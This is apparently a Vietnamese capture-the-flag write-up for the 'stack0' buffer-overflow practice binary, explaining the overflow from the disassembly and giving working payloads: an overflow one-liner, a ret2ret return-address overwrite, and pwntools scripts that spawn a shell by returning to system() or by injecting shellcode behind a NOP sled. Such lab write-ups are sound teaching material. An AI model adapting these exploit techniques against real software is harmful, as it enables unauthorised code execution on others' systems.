

# Stack0

Đầu tiên ta chạy thử chương trình, chương trình yêu cầu nhập input. 



`try again?`
Vậy cùng xem thử qua hàm main.


t thấy chương trình dùng gets để nhập input vào `[esp+0x1c]`. Sau đó so sánh `[esp+0x5c]` với 0, nếu = 0 in ra `0x8048529 (try again?)` nếu ko thì in ra `0x8048500(you have changed the 'modified' variable)`. Vì ban đầu `[esp+0x5c]` được gán giá trị = 0 nên mục đích của chall này là thay đổi giá trị cua `[esp+0x5c]` để in ra *you have changed the 'modified' variable*. Ta tính được size của `[esp+0x1c]` 0x5c - 0x1c = 64 byte. vậy cần nhập một chuỗi > 64 byte để ghi đè giá trị của `[esp+0x5c]`.

## Solution

### Buffer Overflow

`python -c 'print "a"*65 | ./stack0`

### Ret2ret

Ta có thể overflow sang EIP để jump về `0x08048419`. Mình dùng Gdb để có đc địa chỉ của ESP,EBP.


`padding = [ebp]-[esp+0x1c] + ebp(4byte) = 80`
payload: `python -c 'print "a"*80 + "\x19\x84\x04\x08"' | ./stack0`


## Spawn Shell

### return về hàm system()

thay vì để jump về `0x08048419` ta có thể return về hàm system() để spawn shell.


```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack0')
p.sendline(payload)
p.interactive()
```


### inject code

Check qua phân vùng stack, mình thấy nó có quyền excute. Nên mình sẽ inject shellcode vào stack. Shellcode có thể tìm trên mạng, hoặc dùng shellcraft để tạo. Tạo một vùng nop byte đủ lớn, cho EIP rơi vào đâu đó giữa khoảng NOP byte.


```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

